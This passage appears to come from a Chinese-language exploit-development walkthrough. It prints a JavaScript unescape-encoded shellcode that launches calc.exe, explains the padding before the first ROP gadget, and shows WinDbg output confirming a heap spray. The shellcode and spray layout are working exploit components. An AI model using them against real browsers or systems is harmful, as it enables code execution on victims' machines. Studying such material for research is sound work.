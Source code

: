 ```javascript

    //弹出计算器的shellcode
    shellcode+= unescape("%ue8fc%u0089%u0000%u8960%u31e5%u64d2%u528b%u8b30" + 
                             "%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%uc031" + 
                             "%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf0e2%u5752" + 
                             "%u528b%u8b10%u3c42%ud001%u408b%u8578%u74c0%u014a" + 
                             "%u50d0%u488b%u8b18%u2058%ud301%u3ce3%u8b49%u8b34" + 
                             "%ud601%uff31%uc031%uc1ac%u0dcf%uc701%ue038%uf475" + 
                             "%u7d03%u3bf8%u247d%ue275%u8b58%u2458%ud301%u8b66" + 
                             "%u4b0c%u588b%u011c%u8bd3%u8b04%ud001%u4489%u2424" + 
                             "%u5b5b%u5961%u515a%ue0ff%u5f58%u8b5a%ueb12%u5d86" + 
                             "%u016a%u858d%u00b9%u0000%u6850%u8b31%u876f%ud5ff" + 
                             "%uf0bb%ua2b5%u6856%u95a6%u9dbd%ud5ff%u063c%u0a7c" + 
                             "%ufb80%u75e0%ubb05%u1347%u6f72%u006a%uff53%u63d5" + 
                             "%u6c61%u2e63%u7865%u0065");
```

也就是说第一条gadget的前面还有14 * 2 = 28字节(0x1c)的padding，所以第一条gadget的地址应该为0x24+0x1c = 0x40

调试验证：

```
0:005> !heap -stat
_HEAP 003d0000
     Segments            00000001
         Reserved  bytes 00100000
         Committed bytes 00100000
     VirtAllocBlocks     00000001
         VirtAlloc bytes 038b0000
_HEAP 02cc0000
     Segments            00000001
         Reserved  bytes 00040000
         Committed bytes 0002b000
     VirtAllocBlocks     00000000
         VirtAlloc bytes 00000000
_HEAP 01240000
     Segments            00000001
         Reserved  bytes 00040000
         Committed bytes 00012000
     VirtAllocBlocks     00000000
         VirtAlloc bytes 00000000
_HEAP 002f0000
     Segments            00000001
         Reserved  bytes 00010000
         Committed bytes 00010000
     VirtAllocBlocks     00000000
         VirtAlloc bytes 00000000
_HEAP 024a0000
     Segments            00000001
         Reserved  bytes 00040000
         Committed bytes 00001000
     VirtAllocBlocks     00000000
         VirtAlloc bytes 00000000
_HEAP 00010000
     Segments            00000001
         Reserved  bytes 00010000
         Committed bytes 00001000
     VirtAllocBlocks     00000000
         VirtAlloc bytes 00000000
0:005> !heap -stat -h 003d0000
 heap @ 003d0000
group-by: TOTSIZE max-display: 20
    size     #blocks     total     ( %) (percent of total busy bytes)
    fffe0 65 - 64ff360  (98.77)
```